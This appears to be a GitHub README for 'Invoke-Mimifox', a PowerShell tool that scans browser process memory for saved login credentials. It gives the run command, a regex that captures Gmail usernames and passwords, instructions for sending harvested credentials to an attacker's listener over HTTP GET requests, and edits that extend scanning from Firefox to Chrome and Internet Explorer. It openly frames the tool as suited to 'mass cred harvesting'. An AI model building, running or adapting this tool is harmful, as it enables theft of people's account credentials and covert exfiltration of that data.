 # Invoke-Mimifox
    ./Invoke-Mimifox.ps1 invoke-mimifox

The year is 2020 and alas no longer Mimikittenz works well or progressively on any machines in a real work environment. Mimifox is a little bit more future friendly, a couple of edits to the original code and an added OOB exfiltration option makes life a little easier for mass cred harvesting and blind PS attacks.

## Out Of Bounds Exfil
Just set a listener running on port 80 and be sure to change the IP addresses in the source code to your attacking IP. Basically just forces a get request with the standard out of the programme and appends `/?<all of your goodness>`. Tail the logs and viola!

## Adding Custom Regexes & Processes
    [mimikittenz.MemProcInspector]::AddRegex("Gmail","identifierInput=.([A-Za-z0-9$&+,:;=?@#|'<>.^*() %!\-]+)&password=.([A-Za-z0-9$&+,:;=?@#|'<>.^*() %!\-]+)")
Use something like Burp or tamperdata to gather the parameters passed when logging into a certain application and pass them in this format within the source. Currently only grabs Gmail and Github creds but the possiblities are..  _**Endless**_

The currently searched processes are defined within:
    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox")
You can change this to incorpate more cote-du-jour browsers or processes of choice:
    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox","chrome","iexplore","meincraft")
